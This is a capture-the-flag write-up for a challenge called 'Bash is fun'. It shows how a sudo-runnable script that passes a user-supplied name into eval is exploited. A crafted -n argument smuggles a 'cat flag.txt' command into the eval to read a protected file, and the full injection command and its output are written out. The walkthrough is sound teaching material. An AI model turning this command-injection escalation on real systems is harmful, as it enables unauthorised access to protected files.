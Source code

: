# Bash is fun (Bash)

```
user1@716fe67c8d07:/home/user1$ ls -l
total 12
-rwxr----- 1 root user-privileged  67 Aug 29 19:08 flag.txt
-rwxr-xr-x 1 root user-privileged 565 Aug 29 19:08 welcome.sh
-rwxr-xr-x 1 root root             62 Aug 29 19:08 welcome.txt
```
We need to read `flag.txt`, but we have insufficient permissions. Interestingly, `flag.txt` and `welcome.sh` are under the group `user-privileged` instead of `root`.
```
user1@716fe67c8d07:/home/user1$ sudo -l
Matching Defaults entries for user1 on 716fe67c8d07:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 716fe67c8d07:
    (user-privileged) NOPASSWD: /home/user1/welcome.sh
```
It seems like we can run `welcome.sh` as `user-privileged` without a password using `sudo`. Let's look at the contents of `welcome.sh`:
```bash
user1@716fe67c8d07:/home/user1$ cat welcome.sh
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
        $name
fi

if [[ $permission -eq 1 ]];then
        echo "You are: "
        id
fi
```
Given that we are running this script as `user-privileged`, if we read `flag.txt` in the script, it will work because we have sufficient privileges. Now all we need to do is figure out how to insert a read of `flag.txt`.

The `eval` command looks suspicious, especially with the variable `$name` being inserted as the function name. We can pass a string that ends the function definition, runs `cat flag.txt`, and starts another function definition to continue where we left off. For example, if we pass the string
```
hi { echo hi; }; cat flag.txt; function greet
```
as `$name`, then the code that will be evaluated is
```bash
function hi { echo hi; }; cat flag.txt; function greet { sed 's/user//g' welcome.txt ; }
```
Let's try running it.
```
user1@716fe67c8d07:/home/user1$ sudo -u user-privileged ./welcome.sh -n 'hi { echo hi; }; cat flag.txt; function greet'
Welcome To SysAdmin Welcomer \o/
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
/home/user1/welcome.sh: line 23: export: {: not a function
/home/user1/welcome.sh: line 23: export: echo: not a function
/home/user1/welcome.sh: line 23: export: hi;: not a function
/home/user1/welcome.sh: line 23: export: };: not a function
/home/user1/welcome.sh: line 23: export: cat: not a function
/home/user1/welcome.sh: line 23: export: flag.txt;: not a function
/home/user1/welcome.sh: line 23: export: function: not a function
```
There were a bunch of errors caused by the `export` statement on the next line, but we got the flag.
